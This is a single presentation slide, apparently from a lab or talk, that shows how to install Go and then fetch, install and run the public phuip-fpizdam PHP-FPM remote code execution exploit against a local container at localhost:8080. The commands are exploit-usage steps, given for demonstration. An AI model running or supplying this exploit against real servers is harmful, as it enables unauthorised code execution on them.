

# Using neex’s go Script
Install GO for your operating system
Linux – ‘sudo apt install golang’
Download the exploit
 go get -v github.com/neex/phuip-fpizdam
Install the exploit
go install github.com/neex/phuip-fpizdam
Run the exploit on the container we previously made
~go/bin/phuip-fpizdam http://localhost:8080/script.php